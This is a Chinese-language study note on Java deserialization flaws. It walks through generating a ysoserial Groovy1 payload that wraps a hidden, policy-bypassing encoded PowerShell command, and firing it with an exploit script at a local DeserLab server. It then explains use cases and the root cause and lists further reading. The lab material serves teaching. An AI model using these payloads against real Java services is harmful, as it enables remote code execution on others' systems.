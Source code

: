 [生成有效载荷](http://jackson.thuraisamy.me/runtime-exec-payloads.html)

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-4-8/15517531.jpg)

用ysoserial生成针对Groovy库的payload

	E:\Download>java -jar ysoserial-master.jar  Groovy1 "powershell.exe -NonI -W Hid
	den -NoP -Exec Bypass -Enc bQBrAGQAaQByACAAcwBlAGMAXwBuAG8AdABlAA==" > payload2.
	bin

在DeserLab的Github项目页面下载DeserLab.jar
命令行下使用`java -jar DeserLab.jar -server 127.0.0.1 6666`开启本地服务端。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-4-8/79586731.jpg)

使用[deserlab_exploit.py](https://gist.github.com/DiabloHorn/8630948d953386d2ed575e17f8635ee7)脚本执行`payload`。

	python deserlab_exploit.py 127.0.0.1 6666 payload2.bin

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-4-8/97971690.jpg)

成功写入一个新文件，命令执行。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-4-8/52073188.jpg)


### [深入理解 JAVA 反序列化漏洞](https://paper.seebug.org/312/)

#### 反序列化和序列化的使用场景

有效的实现多平台之间的通信、对象持久化存储。

>HTTP：多平台之间的通信，管理等

>RMI：是 Java 的一组拥护开发分布式应用程序的 API，实现了不同操作系统之间程序的方法调用。值得注意的是，RMI 的传输 100% 基于反序列化，Java RMI 的默认端口是 1099 端口。

>JMX：JMX 是一套标准的代理和服务，用户可以在任何 Java 应用程序中使用这些代理和服务实现管理,中间件软件 WebLogic 的管理页面就是基于 JMX 开发的，而 JBoss 则整个系统都基于 JMX 构架。 


#### 漏洞成因

暴露或者间接暴露反序列化API，导致用户可以操作传入数据，攻击者可以精心构造反序列化对象并执行恶意代码。


​




#### 文章集锦

[Java反序列化漏洞研究](https://www.cnblogs.com/alert123/p/5124637.html)

[Java反序列化漏洞学习实践一：从Serializbale接口开始，先弹个计算器](http://www.polaris-lab.com/index.php/archives/447/)

[浅谈Java反序列化漏洞修复方案.md](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)


[java反序列化工具ysoserial分析](http://drops.xmd5.com/static/drops/papers-14317.html)






